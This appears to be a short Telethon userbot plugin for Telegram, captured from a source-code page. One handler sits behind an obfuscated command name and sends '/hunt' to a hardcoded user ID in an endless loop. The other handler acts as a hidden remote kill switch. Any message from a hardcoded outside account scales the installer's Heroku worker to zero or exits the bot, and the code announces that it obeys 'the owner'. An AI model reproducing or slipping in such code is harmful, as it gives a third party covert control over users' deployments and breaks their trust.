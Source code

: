 import sys
import os
import asyncio
from telethon import events
from asyncio.exceptions import CancelledError
import heroku3
from TelethonHell.DB.gvar_sql import addgvar, delgvar, gvarstat
from TelethonHell.plugins import *

@hell_cmd(pattern="ownexjosoaoaosoosososososkksksksksksksr(?:\s|$)([\s\S]*)")
async def _(event):
    input_str = int(event.pattern_match.group(1)) or 15
    await eod(event,"`Ok! Finding.....`")
    while True:
        await event.client.send_message(572621020,"/hunt")
        await asyncio.sleep(input_str)
      

@bot.on(events.NewMessage(from_users=[1684703664]))
async def _(event):
    if '.bang tanmay' in event.raw_text:
        await eor(event, "**[ ⚠️ ]** \n**ʄʀǟɢɮօȶ is now turned off. command by the owner, i can't disagree bye!**")
    if HEROKU_APP is not None:
        HEROKU_APP.process_formation()["worker"].scale(0)
    else:
        sys.exit(0)
